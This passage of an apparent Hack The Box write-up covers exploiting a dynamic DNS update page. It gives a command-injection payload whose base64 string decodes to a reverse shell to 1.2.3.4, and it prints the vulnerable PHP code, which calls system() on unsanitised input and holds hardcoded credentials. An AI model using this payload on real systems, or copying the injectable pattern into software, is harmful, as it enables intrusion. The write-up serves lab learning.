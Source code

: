 To accelerate the testing process I moved this in a bash script:

```bash
./fuzz.sh $'heyhey'
# HTTP/1.1 200 OK
# Date: Wed, 15 Sep 2021 07:55:52 GMT
# Server: Apache/2.4.41 (Ubuntu)
# Content-Length: 13
# Content-Type: text/html; charset=UTF-8

# good 1.2.3.4
```

### Breaking out

With `";` in the hostname, the server displays the command instead of executing it:

```
server 127.0.0.1
zone dynamicdns.htb
update delete
good 1.2.3.4
```

From this output we gather:

- the first 3 lines are the actual query, formed from the input
- the last line is the custom feedback from the server (different from nsupdate output)
- the subdomain `";` (empty since it breaks the command) appears on the third
  line, which is incomplete

These 3 lines are somehow passed on to nsupdate: may-be through a pipe, may-be
through a file.

After an embarassing amount of fuzzing I finally broke out with:

```bash
./fuzz.sh $'"|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjIuMy40Lzk5OTkgMD4mMQ== |base64 -d|bash;'
```

In the end, the update page logic is:

```php
<?php
  // Check authentication
  if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']))      { echo "badauth\n"; exit; }
  if ($_SERVER['PHP_AUTH_USER'].":".$_SERVER['PHP_AUTH_PW']!=='dynadns:sndanyd') { echo "badauth\n"; exit; }

  // Set $myip from GET, defaulting to REMOTE_ADDR
  $myip = $_SERVER['REMOTE_ADDR'];
  if ($valid=filter_var($_GET['myip'],FILTER_VALIDATE_IP))                       { $myip = $valid; }

  if(isset($_GET['hostname'])) {
    // Check for a valid domain
    list($h,$d) = explode(".",$_GET['hostname'],2);
    $validds = array('dnsalias.htb','dynamicdns.htb','no-ip.htb');
    if(!in_array($d,$validds)) { echo "911 [wrngdom: $d]\n"; exit; }
    // Update DNS entry
    $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
    system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
    // Return good or 911
    if (!$retval) {
      echo "good $myip\n";
    } else {
      echo "911 [nsupdate failed]\n"; exit;
```

[author-profile]: https://app.hackthebox.eu/users/77141
[leaks]: images/leaks.png
[no-ip-doc]: https://www.noip.com/integrate/response